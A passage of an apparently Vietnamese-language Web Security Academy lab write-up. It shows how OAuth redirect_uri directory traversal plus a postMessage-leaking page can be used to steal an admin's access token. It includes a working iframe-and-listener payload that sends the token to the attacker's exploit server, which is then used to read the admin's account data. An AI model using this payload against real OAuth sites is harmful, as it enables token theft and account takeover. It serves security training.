 Ở bài lab sử dụng redirection phía trên, ta đã được biết kĩ thuật directory traversal để bypass whitelist và điều hướng `redirect_uri` đến đường dẫn ta mong muốn. Nếu ở bài này, ta dùng kĩ thuật đó để redirect tới `/post/comment/comment-form` thì ta sẽ nhận được `window.location/href` (khi ta nhúng trang này trên exploit server), cụ thể trên exploit server ta setup payload như sau

```htmlembedded!
<iframe src="https://oauth-0a8200c003fc3a2b806e064102a80025.oauth-server.net/auth?client_id=wb9nare3p3f12cbsck3we&redirect_uri=https://0a3e0005034b3a3b80880834006000b8.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=532382906&scope=openid%20profile%20email"> </iframe>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```


Khi admin truy cập sẽ tự khởi tạo 1 request xác thực OAuth, và khi Author token trả về, nó sẽ trả về trên fragment của đường dẫn `/post/comment/comment-form`. Và vì đường dẫn này thực hiện `postMessage()` đến trang mà nó đang đc nhúng, nên nó sẽ post lên exploit server. Và trên exploit server ta có EventListener để handle post request đó -> ta lấy được access token. Dùng token đó để xác thực ở request `/me` thì ta lấy được các thông tin của Admin như sau.

>![](https://i.imgur.com/NhXhNg1.png)

Kết quả của vector khai thác đã mô tả.

>![](https://i.imgur.com/yndcWn8.png)


